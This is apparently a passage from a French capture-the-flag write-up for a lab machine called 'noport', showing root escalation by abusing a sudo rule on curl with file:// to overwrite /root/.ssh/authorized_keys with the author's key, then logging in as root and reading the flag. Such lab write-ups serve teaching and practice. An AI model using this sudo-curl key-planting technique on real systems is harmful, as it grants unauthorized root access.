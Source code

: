 On va exploiter l'entrée `sudo` pour `curl` avec le protocole `file://`.

J'écris une clé publique SSH et je la copie dans le `authorized_keys` de root :

```console
noport:~$ echo "ssh-rsa AAAAB--- snip ---V7Ez8/h" > key_no_pass.pub
noport:~$ sudo curl file:///home/akaRed/key_no_pass.pub -o /root/.ssh/authorized_keys
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   381  100   381    0     0  4044k      0 --:--:-- --:--:-- --:--:-- 4044k
```

Je n'ai plus qu'à utiliser la clé privée pour me connecter :

```console
noport:~$ ssh -i key_no_pass root@127.0.0.1
noport:~# id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
noport:~# ls -al
total 24
drwx------    3 root     root          4096 Apr 22 14:18 .
drwxr-xr-x   22 root     root          4096 Apr 20 13:51 ..
lrwxrwxrwx    1 root     root             9 Apr 20 13:52 .ash_history -> /dev/null
-rw-r--r--    1 root     root            51 Apr 21 01:23 .gitconfig
drwxr-xr-x    2 root     root          4096 May 20 11:08 .ssh
-rw-r--r--    1 root     root            44 Apr 22 14:42 root.txt
-rw-r--r--    1 root     root           130 Apr 20 18:17 runme.sh
noport:~# cat root.txt 
flag{Ur_t3h_Trvely_n3tvv0rk_@ce_on_QQGroup}
```
